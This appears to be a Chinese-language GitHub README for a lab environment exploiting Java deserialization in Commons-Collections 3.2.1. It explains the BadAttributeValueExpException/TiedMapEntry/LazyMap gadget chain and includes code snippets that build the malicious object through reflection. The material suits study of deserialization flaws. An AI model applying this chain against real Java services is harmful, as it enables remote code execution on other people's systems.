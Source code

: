 # Commons-collections-
Commons-collections反序列化利用环境

# Gadget利用链
此为Gadget利用链。后续有相关问题可参考http://1aker.xyz/2019/12/25/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%AD%E4%BA%A7%E7%94%9F%E7%9A%84%E4%B8%80%E4%BA%9B%E7%96%91%E9%97%AE/#more

# 此条链条需要的JAR包
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
 
# 漏洞链分析
在BadAttributeValueExpException（import javax.management.BadAttributeValueExpException;） 
发现了重写readObject--> 在其中调用了toString方法-->寻找到TiedMapEntry重写了toString方法（使用getValue，间接用的MAP.get方法）--> 利用LazyMap.decorate包装恶意代码，在使用get方法触发块代码
即Map lazyMap = LazyMap.decorate(innerMap, transformChain);

# 正向分析
程序执行时，会解析到BadAttributeValueExpException类，然后执行其readObject
该类值val由我们反射修改为LazyMap.decorate包装的恶意代码：
        BadAttributeValueExpException exception = new BadAttributeValueExpException(null);
        Field valField = exception.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(exception, entry);//利用反射钩取val变量并赋值为恶意包装类。
然后由于该值在改变，所以触发了
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo233");
 其中的transformChain方法，达到代码执行
